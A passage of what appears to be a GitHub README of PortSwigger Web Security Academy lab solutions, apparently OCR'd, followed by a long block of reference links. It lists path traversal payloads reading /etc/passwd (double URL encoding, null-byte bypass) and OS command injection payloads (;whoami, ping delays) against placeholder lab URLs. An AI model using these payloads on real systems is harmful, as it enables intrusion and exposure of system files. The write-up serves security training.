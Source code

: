     filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd    (OK, double URL encode)
    ```

5. #### **File path traversal, validation of start of path**

    ```plaintext
    https://<lab_url>/product   GET   (productId=5)
    https://<lab_url>/image     GET   (filename=50.jpg)

    filename=/var/www/images/../../../etc/passwd
    ```

6. #### **File path traversal, validation of file extension with null byte bypass**

    ```plaintext
    https://<lab_url>/product   GET   (productId=6)
    https://<lab_url>/image     GET   (filename=60.jpg)

    v1: filename=../../../etc/passwd%00.jpg
    v2: filename=../../../etc/passwd%00.png
    ```

[directory_traversal]: https://portswigger.net/web-security/file-path-traversal

---

## **[Command Injection][command_injection]**

1. #### **OS command injection, simple case**

    ```plaintext
    https://<lab_url>/product           GET     (productId=1)
    https://<lab_url>/product           POST    (productId=1&storeId=1)

    v1: productId=1&storeId=1;whoami
    v2: productId=1&storeId=1|whoami
    v3: productId=1&storeId=1%26whoami
    v4: productId=1&storeId=1%26%26whoami

    peter-AO3dKt
    ```

2. #### **Blind OS command injection with time delays**

    ```plaintext
    https://<lab_url>/feedback          GET
    https://<lab_url>/feedback/submit   POST    (csrf=...&name=Psycho&email=test@test.com&subject=Test&message=This+is+a+test.)

    v1: ...&email=test@test.com;ping+-c+10+127.1;...
    v2: ...&email=test@test.com||ping+-c+10+127.1||...
    v3: ...&email=test@test.com%26ping+-c+10+127.1%26...
    v4: ...&email=test@test.com||ping+-c+10+127.1%26%26...
    ```

3. #### **Blind OS command injection with output redirection**

    ```plaintext
    https://<lab_url>/feedback          GET
    https://<lab_url>/feedback/submit   POST    (csrf=&name=Psycho&email=test%40test.com&subject=Test&message=This+is+a+test.)


[web_security_academy]: https://portswigger.net/web-security
[author's_twitter]:     https://www.twitter.com/UDPsycho
[wsa_getting_started]:  https://portswigger.net/web-security/getting-started
[wsa_learning_path]:    https://portswigger.net/web-security/learning-path
[wsa_all_labs]:         https://portswigger.net/web-security/all-labs
[burp_desktop]:         https://portswigger.net/burp/documentation/desktop
[burp_video_tutorials]: https://portswigger.net/burp/pro/video-tutorials
[sql_injection]:                     https://portswigger.net/web-security/sql-injection
[sqli_cheat_sheet]:                  https://portswigger.net/web-security/sql-injection/cheat-sheet
[sqli_retrieving_hidden_data]:       https://portswigger.net/web-security/sql-injection#retrieving-hidden-data
[sqli_subverting_application_logic]: https://portswigger.net/web-security/sql-injection#subverting-application-logic
[sqli_union_attacks]:                https://portswigger.net/web-security/sql-injection/union-attacks
[sqli_examining_the_database]:       https://portswigger.net/web-security/sql-injection/examining-the-database
[sqli_blind]:                        https://portswigger.net/web-security/sql-injection/blind
[sqli_script_conditional_responses]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20responses
[sqli_script_conditional_errors]:    https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20errors
[authentication]:                    https://portswigger.net/web-security/authentication
[auth_password_based]:               https://portswigger.net/web-security/authentication/password-based
[auth_script_ip_block]:              https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Broken%20brute-force%20protection%20IP%20block
[auth_script_account_lock]:          https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Username%20enumeration%20via%20account%20lock
[auth_multi_factor]:                 https://portswigger.net/web-security/authentication/multi-factor
[auth_other_mechanisms]:             https://portswigger.net/web-security/authentication/other-mechanisms
[auth_script_stay-logged-in_cookie]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Brute-forcing%20a%20stay-logged-in%20cookie
[command_injection]: https://portswigger.net/web-security/os-command-injection
[business_logic]:   https://portswigger.net/web-security/logic-flaws
[business_logic_1]: https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls
[business_logic_2]: https://portswigger.net/web-security/logic-flaws/examples#failing-to-handle-unconventional-input
[bussiness_logic_script_low_level]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Business%20Logic/Low-level%20logic%20flaw
[business_logic_3]: https://portswigger.net/web-security/logic-flaws/examples#making-flawed-assumptions-about-user-behavior
[business_logic_4]: https://portswigger.net/web-security/logic-flaws/examples#domain-specific-flaws
[business_logic_5]: https://portswigger.net/web-security/logic-flaws/examples#providing-an-encryption-oracle
[information_disclosure]: https://portswigger.net/web-security/information-disclosure
[access_control]: https://portswigger.net/web-security/access-control
[file_upload_vulnerabilities]: https://portswigger.net/web-security/file-upload
[file_upload_vulnerabilities_file_signature]: https://www.garykessler.net/library/file_sigs.html
[ssrf]:                       https://portswigger.net/web-security/ssrf
[ssrf_common_attacks]:        https://portswigger.net/web-security/ssrf#common-ssrf-attacks
[ssrf_blind_vulnerabilities]: https://portswigger.net/web-security/ssrf/blind